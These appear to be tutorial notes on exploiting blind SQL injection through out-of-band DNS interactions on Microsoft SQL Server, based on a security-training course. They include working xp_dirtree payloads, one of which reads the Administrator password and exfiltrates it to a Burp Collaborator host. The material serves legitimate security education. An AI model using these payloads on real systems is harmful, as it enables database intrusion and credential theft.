 # Blind SQLi using out-of-band (OAST) techniques
---
- Now, suppose that the _application carries out the same SQL query, but does it asynchronously_. 
- The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. 
- The query is still vulnerable to SQL injection, however none of the techniques described so far will work.
- **The application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query**.

- **In this situation**, it is often _possible_ to _exploit_ the _blind SQLi_ vulnerability by _triggering out-of-band network_ interactions to a system that you control. 
- As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. 
- But more powerfully, data can be exfiltrated directly within the network interaction itself.

- A variety of network protocols can be used for this purpose, but typically the most effective is DNS (_domain name service_). 
- This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

- The easiest and most reliable way to use out-of-band techniques is using [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator). 
- This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. 
- Support for Burp Collaborator is built in to [Burp Suite Professional](https://portswigger.net/burp/pro) with no configuration required.

The techniques for triggering a DNS query are highly specific to the type of database being used. 
On _Microsoft SQL Server_, input like the following can be used to cause a DNS lookup on a specified domain:
```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

This will cause the database to perform a lookup for the following domain:
```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

Having _confirmed a way to trigger out-of-band_ interactions.
You can then use the _out-of-band_ channel _to exfiltrate data_ from the vulnerable application. 
For example:
```sql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```
This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup.

This will result in a DNS lookup like the following, allowing you to view the captured password:
```
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

- Out-of-band (OAST) techniques are an extremely powerful way to detect and exploit blind SQLi, due to the highly likelihood of success and the ability to directly exfiltrate data within the out-of-band channel. 
- For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.

# Lab: Blind SQL injection with out-of-band interaction
---
